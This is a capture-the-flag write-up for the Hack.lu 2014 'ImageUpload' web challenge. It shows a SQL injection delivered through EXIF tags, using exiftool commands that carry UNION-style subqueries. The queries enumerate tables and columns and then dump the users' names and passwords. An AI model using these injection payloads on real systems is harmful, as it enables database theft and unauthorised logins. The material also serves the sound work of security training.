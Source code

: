 # Hack.lu CTF 2014: ImageUpload

**Category:** Web
**Points:** 200
**Author:** SLAZ
**Description:**

> In the Wild Wild Web, there are really bad guys. The sheriff doesn't know them all. Therefore, he needs your help.
Upload pictures of criminals to this [site](https://wildwildweb.fluxfingers.net:1421/) and help the sheriff to arrest them.
You can make this Wild Wild Web much less wild!!!
>
> Pictures will be deleted on regular basis!
>
> **Hint:** Bruteforce is not necessary to solve the challenge!!! Please don’t do this.

## Write-up

As stated in the challenge description, the site at <https://wildwildweb.fluxfingers.net:1421/> allows image uploads. There is also a login form, but since we don’t have an account, let’s ignore that for now.

Some trial and error reveals that only JPEGs are accepted. Any image you upload gets some effects applied to it to make it look like a Wild Western ‘Wanted’ poster:

![](poster.jpg)

The text on the image “Dr. Evil” reflects the original image’s `Artist` EXIF tag. Below the image, the original `Width`, `Height`, `Author` (i.e. `Artist`), `Manufacturer` (i.e. `Make`), and `Model` EXIF tags are shown. Let’s inject some interesting values there:

```bash
$ exiftool -Make="foo', (SELECT VERSION())) -- -" image.jpg
```

Uploading this image lists the `Manufacturer` as `foo`, and uses the result of `SELECT VERSION()` as the next value in the query, i.e. as if it was the value for `Model`. Yep, the app is vulnerable to SQL injection through EXIF data.

Let’s find out which tables exist in the current database:

```bash
$ exiftool -Make="foo', (SELECT GROUP_CONCAT(table_name) FROM information_schema.tables WHERE table_schema=DATABASE())) -- -" image.jpg
```

The result is `brute,pictures,users`. Hmm, what are the names of the columns in the `users` table?

```bash
$ exiftool -Make="foo', (SELECT GROUP_CONCAT(column_name) FROM information_schema.columns WHERE table_name='users')) -- -" image.jpg
```

Apparently, `id,name,password`. Those `name` and `password` columns sound interesting – let’s see what values are in there:

```bash
$ exiftool -Make="foo', (SELECT GROUP_CONCAT(CONCAT(name, ':', password)) FROM users)) -- -" image.jpg
```

The result: `sheriff:AO7eikkOCucCFJOyyaaQ,deputy:testpw`.

Logging in using `sheriff` as the username and `AO7eikkOCucCFJOyyaaQ` as the password reveals the flag `flag{1_5h07_7h3_5h3r1ff}`.

## Other write-ups and resources

* <http://akaminsky.net/hack-lu-ctf-2014-web-200-imageupload/>
